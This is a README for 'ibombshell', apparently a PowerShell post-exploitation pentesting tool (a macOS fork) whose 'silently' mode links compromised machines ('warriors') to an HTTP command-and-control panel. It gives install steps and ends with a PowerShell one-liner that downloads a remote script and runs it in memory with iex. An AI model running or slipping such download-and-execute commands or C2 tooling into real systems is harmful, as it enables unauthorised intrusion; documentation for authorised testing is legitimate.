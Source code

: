 In addition, *ibombshell* provides a second execution mode called *Silently*, so the pentester can execute an instance of ibombshell (called *warrior*). The compromised computer will be connected to a C2 panel through HTTP. Therefore, it will be possible to control the warrior and be able to load functions in memory that help the pentester. This is happening whithin the post-exploitation phase.

# macOS fork

This fork is meant to be used to create some features to the macOS powershell.

## Install powershell in macOS

1, Install Homebrew for mac:

```https://brew.sh```

2, Install Hombrew-Cask to install new packages:

```brew tap caskroom/cask```

3, Install PowerShell

```brew cask install powershell```

4, Verify the installation

```pwsh```

# Prerequisities

To run *ibombshell everywhere* it is mandatory to have PowerShell 3.0 or higher. For operating systems other than Windows you can read more about this in the [PowerShell GitHub](https://github.com/PowerShell/PowerShell) - *PowerShell for every system!*.

To run the *ibombshell silently mode* you need python 3.6 and some python libraries. You can install this with:

```[python]
cd ibombshell\ c2/
pip install -r requirements.txt
```

**Note**: ibombshell C2 works in **python 3.X**. Make sure you run a pip relative to this version.

# Usage

ibombshell has two execution modes:

## ibombshell everywhere

To load ibombshell simply run on PowerShell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/lucferbux/ibombshell/master/console’)
```
